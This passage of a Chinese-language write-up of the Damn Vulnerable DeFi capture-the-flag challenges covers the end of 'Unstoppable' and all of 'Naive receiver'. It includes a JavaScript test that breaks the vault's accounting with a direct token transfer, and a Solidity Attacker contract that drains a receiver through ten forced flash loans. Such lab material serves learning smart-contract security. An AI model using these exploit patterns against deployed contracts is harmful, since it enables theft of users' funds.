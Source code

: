 要想使得两者不一致，只要不通过depost或mint方法向UnstoppableVault中转入token即可，因此攻击脚本内容如下：
```javascript
it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const dvtForPlayer  = token.connect(player);
        await dvtForPlayer.transfer(vault.address,1);
    });
```

## Challenge 2 - Naive receiver

### 合约

- NaiveReceiverLenderPool：继承IERC3156FlashLender，提供闪电贷功能
- FlashLoanReceiver：继承IERC3156FlashBorrower，用于发起闪电贷接收回调

### 脚本

- 部署NaiveReceiverLenderPool合约，向pool中转入1000eth，pool的闪电贷手续费为1eth
- 部署FlashLoanReceiver合约，向receiver中转入10eth
- 执行攻击脚本
- 期望receiver中的余额为0，pool中的余额为1000+10eth

### 题解

攻击目标是使得receiver中的余额为空，因为每次通过pool执行闪电贷都需要1eth的手续费，因此只需通过receiver向pool执行十次闪电贷即可把10eth全部通过手续费的方式转给pool

![image](https://pic.imgdb.cn/item/654e66eec458853aef7765f2.jpg)


根据题目要求，尽量在一笔交易完成，因此可以编写合约在一笔交易中完成十次闪电贷

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../../src/naive-receiver/FlashLoanReceiver.sol";
import "../../src/naive-receiver/NaiveReceiverLenderPool.sol";
import "openzeppelin-contracts/contracts/interfaces/IERC3156FlashBorrower.sol";

contract Attacker {
    constructor(address payable _pool, address payable _receiver){
        NaiveReceiverLenderPool pool = NaiveReceiverLenderPool(_pool);
        for(uint256 i=0; i<10; i++){
            pool.flashLoan(IERC3156FlashBorrower(_receiver), address(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE), 1, "0x");
        }
    }
}
```


## Challenge 3 - Truster
